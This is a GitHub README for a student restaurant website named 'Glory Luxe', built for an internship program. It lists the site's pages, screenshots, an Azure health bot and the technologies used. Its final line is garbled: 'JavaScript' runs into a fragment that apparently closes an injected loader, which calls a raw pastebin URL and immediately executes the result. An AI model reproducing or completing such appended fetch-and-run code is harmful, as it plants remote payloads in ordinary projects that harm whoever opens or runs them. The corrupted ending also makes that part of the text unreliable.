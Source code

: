 
# ✨ Glory Luxe ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -https://sanamohammed02.github.io/FRTproject/


**Demo Video** -  
**Azure technologirs used for project:**

 -Static web apps
 -Health bot


## Features and Functionalities😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -   ![Screenshot 2023-07-01 001545](https://github.com/sanamohammed02/FRTproject/assets/123639740/6921c03d-ce13-4d40-8a42-97d769de2762)


### Team page - ![Screenshot 2023-07-01 002017](https://github.com/sanamohammed02/FRTproject/assets/123639740/f8b7b351-d801-415e-bbdd-5bee8df4163c)


### Contact page - ![Screenshot 2023-07-01 002223](https://github.com/sanamohammed02/FRTproject/assets/123639740/b3b01d6a-5ece-4aee-8d2f-01029b82436c)


### Menu Page - ![Screenshot 2023-07-01 002314](https://github.com/sanamohammed02/FRTproject/assets/123639740/163896e9-e030-460e-8f28-bf6e233b0b48)


### About Us Page -![Screenshot 2023-07-01 002746](https://github.com/sanamohammed02/FRTproject/assets/123639740/3caf62c4-61e7-49e0-8ec8-c7a02a63976c)



##healthbbot 💻- ![Screenshot 2023-07-01 002617](https://github.com/sanamohammed02/FRTproject/assets/123639740/3e181679-2cd6-4204-97dc-f4c8f64a2e17)

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
